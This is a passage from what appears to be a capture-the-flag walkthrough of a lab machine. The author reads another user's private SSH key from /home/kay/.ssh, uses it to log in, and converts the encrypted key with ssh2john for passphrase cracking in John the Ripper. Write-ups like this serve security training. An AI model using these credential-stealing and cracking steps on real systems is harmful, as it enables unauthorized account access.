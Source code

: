 ```
-rw-rw-r-- 1 kay kay  771 Apr 23  2018 authorized_keys
-rw-r--r-- 1 kay kay 3326 Apr 19  2018 id_rsa
-rw-r--r-- 1 kay kay  771 Apr 19  2018 id_rsa.pub
jan@basic2:~$
```


- that’s great, ssh key with reading permissions, we can use it to login as kay
- `jan@basic2:~$ cat /home/kay/.ssh/id_rsa`
- paste it in our computer then change the file permission to  600 using `chmod 600 kay_ssh_key`
- `ssh -i kay_ssh_key kay@$target`
    
    ![Untitled](images/Untitled%2010.png)
    
- the ssh key is encrypted so we can crack it using john

---

# Cracking

- first we should convert the ssh file to an understandable format for john using `ssh2jon`
- `/usr/share/john/ssh2john.py kay_ssh_key > CrackMe`
    
    ![Untitled](images/Untitled%2011.png)
    
- we now have the ssh key passphrase, after connecting we can view pass.bak file content
    
    ![Untitled](images/Untitled%2010.png)
    